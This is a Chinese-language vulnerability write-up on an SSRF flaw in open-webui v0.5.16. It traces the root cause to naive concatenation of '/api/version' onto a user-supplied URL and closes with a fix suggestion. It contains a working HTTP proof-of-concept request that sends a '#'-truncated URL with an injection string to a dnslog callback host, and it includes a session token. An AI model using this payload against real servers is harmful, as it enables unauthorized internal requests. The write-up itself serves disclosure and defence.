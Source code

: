 ```yaml
---
title: open-webui_ssrf漏洞
date: 2025-03-01 14:39:21
tags:
---
```


# 1.影响版本

![image-20250301144310748](open-webui-ssrf/image-20250301144310748.png)

版本：v0.5.16

# 2.攻击步骤

访问 设置-外部链接-管理Ollama API连接

![image-20250301144356272](open-webui-ssrf/image-20250301144356272.png)

url填入：http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- # 后点击右边的测试按钮

```
http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- #
```

![image-20250301144933103](open-webui-ssrf/image-20250301144933103.png)

查看dnslog平台的web日志，如下图，成功利用服务器发起了任意形式的GET请求攻击，验证了SSRF攻击存在

![image-20250301144959765](open-webui-ssrf/image-20250301144959765.png)

POC如下

```
POST /ollama/verify HTTP/1.1
Host: localhost:8080
Content-Length: 66
sec-ch-ua: 
Accept: application/json
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImRmM2RmNzE5LWE0NGUtNDVkNC1hZGJkLWRiNWRhNmVjNzg4OSJ9.enDXNwjdUApgnnkE71G8eznz87KTQwRNQ9RKODnaSS4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
sec-ch-ua-platform: ""
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/settings
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImRmM2RmNzE5LWE0NGUtNDVkNC1hZGJkLWRiNWRhNmVjNzg4OSJ9.enDXNwjdUApgnnkE71G8eznz87KTQwRNQ9RKODnaSS4
Connection: close

{"url":"http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- #","key":""}
```

为什么要用 # 注释符？

如下图所示，如果没用#则url会自动拼接上 /api/version, 可能会影响正常攻击payload（如sql注入攻击并不会用到/api/version）

![image-20250301151957826](open-webui-ssrf/image-20250301151957826.png)



# 3.源码跟踪

漏洞原理：利用#注释符注释掉了默认添加在url后面的 /api/version,达到了SSRF漏洞

如POC所示，程序向/ollama/verify发起了POST请求，请求参数为

```
{"url":"http://2223.xdoko0gi.eyes.sh/?id=1' or 1=1 -- #","key":""}
```

![image-20250301150939879](open-webui-ssrf/image-20250301150939879.png)

根据 /ollama/verify路由可以找到处理该路径的函数

![image-20250301151635154](open-webui-ssrf/image-20250301151635154.png)

该函数位于 /routers/ollama/verify中,如 185、186行所示，该函数会从表单中获取名为url、key的参数值

在193行，f"{url}/api/version", 中，将用户输入的url直接拼接上 /api/version (此处可以用 # 进行绕过)

```
async with session.get(
                f"{url}/api/version",
                headers={**({"Authorization": f"Bearer {key}"} if key else {})},
            )
```

最后将拼接好的url和headers发起get请求

# 4.修复建议

在url拼接前，对用户的输入进行严格限制，如不允许输入特殊字符#
